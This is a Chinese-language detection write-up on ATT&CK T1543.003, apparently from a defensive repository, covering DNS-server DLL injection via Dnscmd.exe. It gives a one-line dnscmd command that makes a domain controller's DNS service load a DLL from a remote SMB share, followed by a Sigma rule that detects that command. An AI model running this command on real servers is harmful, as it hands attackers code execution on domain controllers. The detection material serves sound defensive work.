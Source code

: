 # T1543-003-Win-windows服务-Dnscmd.exe(白名单)

## 来自ATT&CK描述

作为持久性的一部分，攻击者可能会创建或修改Windows服务以重复执行恶意负载。当Windows启动时，它会启动程序或称为服务的应用程序来执行后台系统功能。Windows服务配置信息，包括服务的可执行文件或恢复程序/命令的文件路径，存储在 Windows 注册表中。可以使用sc.exe和Reg等实用程序修改服务配置。

攻击者可以通过使用系统实用程序与服务交互、直接修改注册表或使用自定义工具与Windows API交互来安装新服务或修改现有服务。攻击者可能会将服务配置为在启动时执行，以便在系统上建立持久性。

攻击者还可以通过使用来自相关操作系统或良性软件的服务名称或通过修改现有服务来结合伪装，使检测分析更具挑战性。修改现有服务可能会中断其功能或启用已禁用或不常用的服务。

可以使用管理员权限创建服务，但需要在SYSTEM权限下执行，因此攻击者也可以使用服务将权限从管理员提升到 SYSTEM。攻击者也可以通过服务执行直接启动服务。

## 测试案例

Dnscmd.exe用于管理DNS服务器的命令行界面。此实用程序可用于编写批处理文件脚本以帮助自动化日常DNS管理任务，或在网络上执行简单的无人值守设置和配置新DNS服务器。

路径：

```yml
-   C:\Windows\System32\Dnscmd.exe
-   C:\Windows\SysWOW64\Dnscmd.exe
```

添加特制DLL作为DNS服务的插件。 此命令必须由至少是DnsAdmins组成员的用户在DC上运行。更多使用方法请参看[微软官方说明](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)。

```bash
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

用例：远程向dns服务器注入dll
所需权限：DNS管理员
操作系统：Windows服务器

## 检测日志

Windows 安全日志

## 测试复现

无

## 测试留痕

无

## 检测规则/思路

这里参看Sigma官方规则：

```yml
title: DNS ServerLevelPluginDll Install

id: f63b56ee-3f79-4b8a-97fb-5c48007e8573

related:

- id: e61e8a88-59a9-451c-874e-70fcc9740d67

type: derived

status: experimental

description: Detects the installation of a plugin DLL via ServerLevelPluginDll parameter in Registry, which can be used to execute code in context of the DNS server

(restart required)

references:

- https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

date: 2017/05/08

modified: 2021/09/12

author: Florian Roth

tags:

- attack.defense_evasion

- attack.t1073 # an old one

- attack.t1574.002

- attack.t1112

logsource:

category: process_creation

product: windows

detection:

dnsadmin:

Image|endswith: '\dnscmd.exe'

CommandLine|contains|all:

- '/config'

- '/serverlevelplugindll'

condition: dnsadmin

falsepositives:

- unknown

level: high

fields:

- EventID

- CommandLine

- ParentCommandLine

- Image

- User

- TargetObject
```

## 参考推荐

MITRE-ATT&CK-T1543-003

<https://attack.mitre.org/techniques/T1543/003>

Dnscmd.exe

<https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/>

Sigma:process_creation_dns_serverlevelplugindll

<https://github.com/SigmaHQ/sigma/blob/b08b3e2b0d5111c637dbede1381b07cb79f8c2eb/rules/windows/process_creation/process_creation_dns_serverlevelplugindll.yml>
